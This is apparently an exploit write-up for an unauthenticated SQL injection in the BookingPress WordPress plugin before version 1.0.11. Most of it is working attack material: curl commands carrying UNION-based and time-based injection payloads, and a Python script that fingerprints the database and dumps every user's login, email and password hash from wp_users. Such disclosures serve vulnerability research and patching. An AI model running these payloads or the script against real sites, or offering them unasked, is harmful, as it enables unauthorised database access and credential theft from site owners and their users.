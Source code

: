 # BookingPress < 1.0.11 - Unauthenticated SQL Injection

## Description

The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection.

## Proof of concept

```
- Create a new "category" and associate it with a new "service" via the BookingPress admin menu (/wp-admin/admin.php?page=bookingpress_services)

- Create a new page with the "[bookingpress_form]" shortcode embedded (the "BookingPress Step-by-step Wizard Form")

- Visit the just created page as an unauthenticated user and extract the "nonce" (view source -> search for "action:'bookingpress_front_get_category_services'")

- Invoke the following curl command



curl -i 'https://example.com/wp-admin/admin-ajax.php' \

  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'



Time based payload:  curl -i 'https://example.com/wp-admin/admin-ajax.php' \

  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=1&total_service=1) AND (SELECT 9578 FROM (SELECT(SLEEP(5)))iyUp)-- ZmjH' 
```
  
### OR

```
import requests
from json import loads
from random import randint
from argparse import ArgumentParser

p = ArgumentParser()
p.add_argument('-u', '--url', dest='url', help='URL of wordpress server with vulnerable plugin (http://example.domain)', required=True)
p.add_argument('-n', '--nonce', dest='nonce', help='Nonce that you got as unauthenticated user', required=True)

trigger = ") UNION ALL SELECT @@VERSION,2,3,4,5,6,7,count(*),9 from wp_users-- -"
gainer = ') UNION ALL SELECT user_login,user_email,user_pass,NULL,NULL,NULL,NULL,NULL,NULL from wp_users limit 1 offset {off}-- -'

# Payload: ) AND ... -- - total(9)
def gen_payload(nonce, sqli_postfix, category_id=1):
    return { 
        'action': 'bookingpress_front_get_category_services', # vulnerable action,
        '_wpnonce': nonce,
        'category_id': category_id,
        'total_service': f'{randint(100, 10000)}{sqli_postfix}'
    }

if __name__ == '__main__':  
    print('- BookingPress PoC')
    i = 0
    args = p.parse_args()
    url, nonce = args.url, args.nonce
    pool = requests.session()


    # Check if target is vulnerable
    v_url = f'{url}/wp-admin/admin-ajax.php'
    proof_payload = gen_payload(nonce, trigger)
    
    res = pool.post(v_url, data=proof_payload)
    try:
        res = list(loads(res.text)[0].values())
    except Exception as e:
        print('-- Got junk... Plugin not vulnerable or nonce is incorrect')
        exit(-1)
    cnt = int(res[7])
    
    # Capture hashes
    print('-- Got db fingerprint: ', res[0])
    print('-- Count of users: ', cnt)
    for i in range(cnt):
        try:
            # Generate payload
            user_payload = gen_payload(nonce, gainer.format(off=i))
            u_data = list(loads(pool.post(v_url, user_payload).text)[0].values())
            print(f'|{u_data[0]}|{u_data[1]}|{u_data[2]}|')
        except: continue 
```

### References
https://github.com/destr4ct/CVE-2022-0739/blob/main/booking-press-expl.py

https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357
